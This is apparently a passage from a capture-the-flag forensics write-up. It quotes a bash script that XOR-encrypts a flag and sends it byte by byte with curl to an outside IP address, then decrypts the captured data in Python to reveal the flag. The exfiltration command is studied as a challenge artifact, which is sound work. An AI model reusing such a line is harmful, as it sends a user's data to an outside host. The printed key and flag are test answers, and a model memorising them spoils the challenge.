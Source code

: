 ```bash
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )
        val3=$(( val1 ^ val2 ))
        DataOut+=$(printf '%02x' "$val3")
    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}
XOREncrypt $KEY $FLAG
exit 0
```
{: file="extract.sh" }

One of the last commands, `curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null`, can be recognized from the `pcap` we analyzed earlier. This command is what created the requests we extracted. The script reads the flag from *flag.txt* and xor it with the key `s3k@1_v3ry_w0w`. This means that the values we extracted earlier could be the encrypted flag!

We attempt to decrypt the encrypted flag with python
```python
enc_flag = "20762001782445454615001000284b41193243004e41000b2d0542052c0b1932432d0441000b2d05422852124a1f096b4e000f" # Extracted from pcap
key = "s3k@1_v3ry_w0w" # Key from extract.sh

for idx, enc_char in enumerate([int(enc_flag[i:i+2], 16) for i in range(0, len(enc_flag), 2)]): # Split enc_flag in pairs of 2
    print(chr(enc_char ^ ord(key[idx % len(key)])), end="") # Xor key and enc_flag byte by byte
```
{: file="decrypt.py" }

```console
$ python3 decrypt.py
SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}
```